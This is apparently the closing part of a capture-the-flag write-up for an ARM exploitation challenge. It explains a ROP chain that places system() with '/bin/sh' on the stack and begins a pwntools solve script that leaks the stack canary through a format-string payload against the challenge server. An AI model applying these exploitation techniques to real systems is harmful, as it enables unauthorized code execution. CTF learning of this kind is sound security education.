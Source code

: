 ![](shelltester-ropchain.png)

We can see that we added 8 bytes of padding since we load `r0` with `/bin/sh` at an offset of `#8`. Finally, we add some more padding (`c`s) to account for the 
`add sp, sp, #14` instruction which will increment the stack pointer. That is such that when `pop {pc}` is called, `system()` will be sitting right there on the
top of the stack waiting to be called. 

And that's that! When running our script that implements this, we get code execution. I quite like ARM and this was a fun challenge. Solve script below. 

```python
from pwn import *
elf = context.binary = ELF("chall")

#p = process('qemu-arm-static -g 1234 chall'.split())
p = remote("shelltesterv2.challs.csc.tf", 1337)

ldr_r0_sp = 0x000673cc

p.sendline(b'%43$p')

p.recvuntil(b'Good Luck!')
p.recvline()
p.recvline()
canary = int(p.recvline().rstrip(b'\n'), 16)
```